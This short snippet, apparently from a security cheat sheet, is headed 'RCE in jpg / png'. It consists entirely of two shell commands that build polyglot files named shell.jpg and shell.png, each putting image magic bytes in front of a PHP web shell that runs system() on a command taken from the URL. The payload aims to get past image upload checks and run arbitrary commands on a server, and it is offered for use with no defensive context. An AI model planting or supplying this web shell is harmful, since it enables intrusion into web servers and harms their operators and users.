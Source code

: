 ## RCE in jpg / png


```bash
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg
echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png
```